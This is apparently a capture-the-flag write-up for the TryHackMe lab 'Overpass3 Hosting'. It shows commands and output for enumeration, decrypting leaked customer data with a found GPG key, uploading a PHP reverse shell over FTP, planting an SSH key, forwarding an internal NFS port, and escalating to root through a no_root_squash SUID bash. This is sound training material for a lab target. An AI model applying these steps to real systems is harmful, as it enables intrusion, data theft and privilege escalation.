




# Overpass3 Hosting (THM)

- https://tryhackme.com/room/overpass3hosting
- March 22, 2023
- medium

---

## Enumeration

### Nmap

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 8.0 (protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.37 ((centos))
```

### HTTP

- home page , nothing special 
- directory brute forcing with ffuf 

```
backups
cgi-bin -> 403
```

- backups



- download to local machine
- unzip and found gpg key pair

```sh
$ gpg --import priv.key
$ gpg --decrypt CustomerDetails.xlsx.gpg > cust.xlsx
```
- open excel file and found there are names, password, credit card number, etc


### FTP 

- enter first user to FTP and found that it is web root



- put php shell to ftp



## User Access

- listen with nc and get request to shell.php file



- there are opened internal services
```
tcp     LISTEN   0        64               0.0.0.0:41279          0.0.0.0:*     
tcp     LISTEN   0        64               0.0.0.0:2049           0.0.0.0:*     
tcp     LISTEN   0        128              0.0.0.0:34439          0.0.0.0:*     
tcp     LISTEN   0        128              0.0.0.0:111            0.0.0.0:*     
tcp     LISTEN   0        128              0.0.0.0:20048          0.0.0.0:*     
tcp     LISTEN   0        128              0.0.0.0:22             0.0.0.0:*  
```
- nfs has vulnerability but it is opened internally
```
-rw-r--r--. 1 root root 54 Nov 18  2020 /etc/exports
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
````
- first get user access who has home directory and try to make ssh port forwarding
- previously, we got some credentials and try with them
- can change paradox user
- to get ssh access

- In local machine, create id_rsa pair

```sh
$ ssh-keygen -f paradox_rsa
$ cat paradox_rsa.pub
# copy these contents
```

- In remote machine, in `paradox's home directory`, there is a `authorized_keys` file under `.ssh` folder
- overwirte the contents with our paradox_rsa.pub contents
- now can enter with `paradox_rsa` like `ssh paradox@$IP -i paradox_rsa`
- nfs service is opened internally and port forwarding this service via ssh
- check nfs service


```sh
[paradox@ip-10-10-230-202 ~]$ service rpcbind status
[paradox@ip-10-10-230-202 ~]$ ss -antu | grep 2049
```

- ssh port forwarding in local machine

```sh
$ ssh -i paradox_rsa -L 2049:127.0.0.1:2049 paradox@$IP
```
- create tmp folder to mount this directory
- in local machine
```sh
$ mkdir /tmp/m
$ sudo mount -t nfs -o port=2049 localhost:/ /tmp/m
$ cd /tmp/m
```

## Root Access

- change root user in local machine `su root`
- in that folder there is id_rsa key in `.ssh` directory
- `cat .ssh/id_rsa` and copy the content and save as james_rsa outside this mount directory
- chmod 600 to james_rsa
- now can enter as james user with id_rsa key
- first copy the bash file as james user
```sh
[james@ip-10-10-230-202 ~]$ cp /bin/bash .
[james@ip-10-10-230-202 ~]$ ls -la bash
-rwxr-xr-x  1 james james 1219248 Mar 22 07:34 bash
```
- from nfs mount, execute as root user 
- first copy this bash to other name
- change it to suid bit by root user
```sh
root# cp bash root_bash
root# chmod +s root_bash
```

- from james ssh

```sh
[james@ip-10-10-230-202 ~]$ ls -l
total 2388
-rwxr-xr-x  1 james james 1219248 Mar 22 07:36 bash
-rwsr-sr-x  1 root  root  1219248 Mar 22 07:36 root_bash
-rw-------. 1 james james      38 Nov 17  2020 user.flag
[james@ip-10-10-230-202 ~]$ ./root_bash -p
root_bash-4.4# whoami
root
```

- for flag, 

```sh
root_bash-4.4# find / -name *.flag 2>/dev/null
```

---